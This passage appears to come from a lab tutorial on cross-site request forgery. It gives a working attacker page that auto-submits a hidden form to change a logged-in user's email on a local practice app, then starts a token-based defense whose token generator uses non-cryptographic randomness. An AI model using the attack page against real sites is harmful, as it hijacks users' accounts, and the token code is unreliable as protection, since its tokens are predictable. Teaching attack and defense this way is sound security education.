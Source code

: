 **2. Create the Attacker's Webpage (`attacker.html`)**
This HTML file simulates the malicious site. It contains a hidden form targeting the vulnerable application's change-email endpoint and uses JavaScript to automatically submit the form when the page loads.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Evil Attacker Site</title>
</head>
<body onload="document.getElementById('csrf-form').submit()">
    <h1>Free Lottery! Click Anywhere!</h1>
    
    <!-- The hidden, forged request form -->
    <form id="csrf-form" action="http://localhost:5000/change_email" method="POST" style="display: none;">
        <!-- Attacker inserts their desired email address -->
        <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    
    <p>Loading your prize...</p>

    <script>
        // Note: The form is automatically submitted on body load.
        console.log("Forged request submitted to localhost:5000/change_email in the background.");
    </script>
</body>
</html>
```

**3. Execute the Attack and Verify**

  * **Step A (Authentication):** Start the vulnerable server (`vulnerable_app.py`). Open a browser tab and **log into** the vulnerable application (establish a session/cookie).
  * **Step B (The Lure):** Open a **new tab** and load the local `attacker.html` file. The form will submit immediately.
  * **Step C (Verification):** Return to the server's terminal or log output. You will see the message: `ATTACK SUCCESSFUL: Email changed to attacker@evil.com`. This confirms the CSRF attack successfully hijacked the authenticated session.

### Part 2: Implementing CSRF Protection (Defense)

We now modify the server application to use the Synchronizer Token Pattern.

**1. Implement CSRF Protection (Conceptual `protected_app.py`)**
The server must now generate a token, include it in the form, and validate it on submission.

*Conceptual Protected Code:*

```python
# Server-side pseudo-code (e.g., Flask with CSRF protection)
import random, string

# Function to generate a random token
def generate_csrf_token():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=32))

# 1. When serving the form:
@app.route('/settings')
def show_settings():
    # 1a. Generate and store token in session
    token = generate_csrf_token()
    session['csrf_token'] = token
    # 1b. Pass token to form template
    return render_template('settings.html', csrf_token=token)
```